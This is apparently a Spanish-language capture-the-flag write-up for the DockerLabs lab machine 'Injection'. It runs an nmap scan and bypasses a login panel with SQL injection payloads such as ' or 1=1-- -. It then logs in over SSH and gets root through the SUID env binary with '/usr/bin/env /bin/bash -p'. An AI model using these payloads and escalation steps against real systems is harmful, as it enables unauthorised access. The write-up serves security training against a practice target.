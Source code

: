 ```yaml
---
layout: post
title: "Injection"
date: 2024-07-01 11:05:23
category: dockerlabs
vm: dockerlabs
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/dockerlabs/dockerlabs.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Injection </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Nivel:</strong> <span class="easy">Muy Facil</span></td> </tr>
  <tr> <td><strong><a href="https://dockerlabs.es" target="_blank"> DockerLabs</a></strong></td> </tr>
</table>

<br>

![img](/notas/public/img/dockerlabs/injection/host.png){:.margin}

**1\.** Escaneando puertos y servicios de la maquina.

`sudo nmap -p- -T5 -sCV --min-rate=5000 -n -Pn 172.17.0.2`

![img](/notas/public/img/dockerlabs/injection/nmap.png){:.margin}

**2\.** Por el servicio apache encontramos un panel login.

`http://172.17.0.2`

![img](/notas/public/img/dockerlabs/injection/80.png){:.margin}

**3\.** Intento provocar un error en la query, ya sabiendo que se acontece una injection sql, bypasseo el login.

`' or 1=1`

`'or 1=1-- -`

![img](/notas/public/img/dockerlabs/injection/errordb.png){:.margin}
![img](/notas/public/img/dockerlabs/injection/loginor.png){:.margin}
![img](/notas/public/img/dockerlabs/injection/loginok.png){:.margin}

**4\.** Me conecto por ssh como dylan.

`ssh dylan@172.17.0.2`

![img](/notas/public/img/dockerlabs/injection/sshdylan.png){:.margin}

**5\.** Busco binarios SUID.

`find / -perm -4000 2>/dev/null`

![img](/notas/public/img/dockerlabs/injection/find.png){:.margin}

**6\.** Escalando privilegios, podemos aprovechar el binario env si lo buscamos en [gtfobins](https://gtfobins.github.io/gtfobins/env/#suid).

`/usr/bin/env /bin/bash -p`

![img](/notas/public/img/dockerlabs/injection/root.png){:.margin}

<br>

<a href="#">_Finalizado._</a>